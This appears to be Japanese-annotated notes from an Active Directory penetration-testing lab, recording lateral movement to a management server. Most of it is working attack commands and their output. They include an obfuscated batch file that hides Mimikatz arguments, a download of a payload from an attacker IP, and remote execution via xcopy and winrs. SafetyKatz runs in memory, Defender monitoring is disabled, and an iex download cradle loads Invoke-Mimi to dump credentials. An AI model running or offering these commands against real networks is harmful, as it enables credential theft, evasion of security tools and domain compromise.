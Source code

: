 ```
set "n=k" 
set "m=e" 
set "l=s" 
set "Pwn=%l%%m%%n%%o%%p%%q%%r%%s%%t%%u%%v%%w%%x%%y%%z%" 
```

---
6. targetに生成したBatファイルをダウンロードする。
```
PS C:\Users\Administrator\.jenkins\workspace\Projectx>iwr http://172.16.100.x/Safety.bat -OutFile C:\Users\Public\Safety.bat 
```

- batの中身
```
@echo off
set "z=s"
set "y=y"
set "x=e"
set "w=k"
set "v=e"
set "u=:"
set "t=:"
set "s=a"
set "r=s"
set "q=l"
set "p=r"
set "o=u"
set "n=k"
set "m=e"
set "l=s"
set "Pwn=%l%%m%%n%%o%%p%%q%%r%%s%%t%%u%%v%%w%%x%%y%%z%"
echo %Pwn%
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -Args %Pwn% exit
```
---
7. target1からtarget2へコピー
```
PS C:\Users\Administrator\.jenkins\workspace\Projectx> echo F | xcopy C:\Users\Public\Safety.bat \\dcorp-mgmt\C$\Users\Public\Safety.bat 
 
Does \\dcorp-mgmt\C$\Users\Public\Safety.bat specify a file name 
or directory name on the target 
(F = file, D = directory)? F 
C:\Users\Public\Safety.bat 
1 File(s) copied
```

---
8. Safty.batをtarget02で実行し、Loader.exeを使用してSafetyKatz.exeをダウンロードし、dcorp-mgmtのメモリ内で実行する。
```
PS C:\Users\Administrator\.jenkins\workspace\Projectx> $null | winrs -r:dcorp-mgmt "cmd /c C:\Users\Public\Safety.bat" 
 
[snip] 
 
Authentication Id : 0 ; 58866 (00000000:0000e5f2) 
Session           : Service from 0 
User Name         : svcadmin 
Domain            : dcorp 
Logon Server      : DCORP-DC 
Logon Time        : 3/3/2023 2:39:12 AM 
SID               : S-1-5-21-719815819-3726368948-3917688648-1118 
 
         * Username : svcadmin 
```

[dcorp-adminsrv]: PS C:\Users\studentx\Documents> $ExecutionContext.SessionState.LanguageMode 
[dcorp-adminsrv]: PS C:\Users\studentx\Documents> Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections 
[dcorp-adminsrv]: PS C:\Users\studentx\Documents> Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
[dcorp-adminsrv]: PS C:\Program Files> .\Invoke-MimiEx.ps1
[dcorp-mgmt]: PS C:\Users\srvadmin\Documents> $env:username 
[dcorp-mgmt]: PS C:\Users>iex (iwr http://172.16.100.X/Invoke-Mimi.ps1 -UseBasicParsing)
[dcorp-mgmt]: PS C:\Users> Invoke-Mimi -Command '"sekurlsa::ekeys"' 
[dcorp-mgmt]: PS C:\Users\mgmtadmin\Documents> Invoke-Mimi -Command '"token::elevate" "vault::cred /patch"' 